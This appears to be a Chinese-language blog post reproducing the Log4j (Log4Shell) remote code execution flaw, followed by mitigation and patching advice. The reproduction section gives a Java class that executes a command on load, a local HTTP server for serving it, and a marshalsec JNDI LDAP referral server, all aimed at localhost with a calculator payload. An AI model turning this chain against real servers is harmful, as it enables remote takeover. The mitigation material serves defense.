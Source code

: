```yaml
---
title: Apache_Log4j_RCE
encrypt: false
enc_pwd: askding
categories:
  - Kali
  - Exploit
date: 2021-12-10 13:31:59
top:
tags:
layout:
---
```

编写进度
- [x] 


# Apache-Log4j
[Apache Log4j 远程代码执行](https://github.com/askDing/apache-log4j-poc)

> 攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响

![image](https://user-images.githubusercontent.com/45926593/145425339-47c71230-87d2-4519-8919-9c3520850f83.png)

## 复线步骤
### 编译exp-修改Log4jRCE.java
``` java
public class Log4jRCE {
    static{
        try{
            String[] cmd={"open","/System/Applications/Calculator.app"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```
### python起个本地简易web服务
在target/classes目录下执行 `python3 -m http.server 8888`
![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210134009.png)
### 在本地起一个ldap服务
`java  -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"`
![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210141034.png)

### 运行log4j.java程序
![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210134659.png)

![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/log4j-payload.png)

## 临时修复方案：

（1）修改jvm参数
-Dlog4j2.formatMsgNoLookups=true

（2）修改配置
在应用classpath下添加log4j2.component.properties配置文件，log4j2.formatMsgNoLookups=true


①在jvm启动参数中添加

`-Dlog4j2.formatMsgNoLookups=true`

![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210151940.png)




③项⽬中创建log4j2.component.properties⽂件，⽂件中增加配置`log4j2.formatMsgNoLookups=true`
![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20211210152139.png)

Log4j2 漏洞修复建议
临时性缓解措施（任选一种，但是注意，只有 >=2.1.0 版本才可以用，老版本不支持这个选项）
在 jvm 参数中添加 -Dlog4j2.formatMsgNoLookups=true
系统环境变量中将LOG4J_FORMAT_MSG_NO_LOOKUPS 设置为 true
创建 log4j2.component.properties 文件，文件中增加配置 log4j2.formatMsgNoLookups=true
彻底修复漏洞:
方案一、研发代码修复：升级到官方提供的 log4j-2.15.0-rc2 版本
方案二、生产环境修复：https://github.com/zhangyoufu/log4j2-without-jndi。（如果不放心网上下载的版本，也可以自己手动解压删除：zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class 删除jar包里的这个漏洞相关的class，然后重启服务即可）

[长亭检测工具](https://log4j2-detector.chaitin.cn/)
